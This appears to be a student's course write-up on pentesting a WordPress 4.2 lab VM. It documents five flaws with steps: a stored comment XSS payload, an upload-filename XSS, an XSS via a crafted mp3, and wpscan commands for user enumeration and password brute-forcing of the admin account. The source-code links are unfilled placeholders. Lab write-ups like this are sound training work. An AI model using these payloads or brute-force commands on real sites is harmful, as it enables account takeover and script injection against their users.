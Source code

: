 # Project 7 - WordPress Pentesting

Time spent: 10 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Large File Upload Error XSS
  - [ ] Summary: 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: <img src="Large File Upload Error XSS.gif">
  - [ ] Steps to recreate: An attacker can inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 2. (Required) Comment Cross-Site Scripting
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: <img src="Comment Cross-Site Scripting.gif">
  - [ ] Steps to recreate: Paste the following text in a comment: ```<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a>```
          Make sure the character length is 64kb or more.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) User Enumeration
  - [ ] Summary: 
    - Vulnerability types: User Enumeration
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="User Enumeration.gif">
  - [ ] Steps to recreate: Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --enumerate u```
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Password Bruteforce Attack
  - [ ] Summary: 
    - Vulnerability types: Password Bruteforce Attack
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="Bruteforce Attack.gif">
  - [ ] Steps to recreate: 
          - Download the wordlist: ```apt-get install wordlists```
          -Extract the wordlist inside: ```/usr/share/wordlists/```
          -Paste the following code to kali-linux terminal: ```wpscan --url wpdistillery.vm --wordlist /usr/share/wordlists/rockyou.txt --username admin```

  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Authenticated Cross-Site Scripting (XSS) via Media File Metadata
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: <img src="Authenticated Cross-Site Scripting (XSS) via Media File Metadata.gif">
  - [ ] Steps to recreate: 
          -Download the .mp3 from ```https://www.securify.nl/advisory/SFY20160742/xss.mp3```
          -Upload this audio file to Media Library.
          -Create a post with this audio inside a playlist.

  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Click on star if you like :)

## License

    Copyright [2020] [Guruprem Rajpal]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
